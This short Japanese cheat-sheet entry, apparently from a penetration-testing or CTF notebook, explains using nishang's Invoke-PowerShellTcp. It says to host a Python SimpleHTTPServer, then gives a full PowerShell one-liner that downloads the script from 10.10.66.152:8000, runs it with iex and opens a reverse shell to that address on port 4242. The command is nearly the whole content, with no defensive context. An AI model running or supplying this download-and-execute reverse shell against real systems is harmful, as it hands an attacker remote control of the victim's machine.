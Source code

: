 # Invoke-PowerShellTcp(nishang)

# Usage
pythonSimpleHTTPServerをホストで立ててDL&Reverse shell貼るパターン

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.152 -Port 4242
```
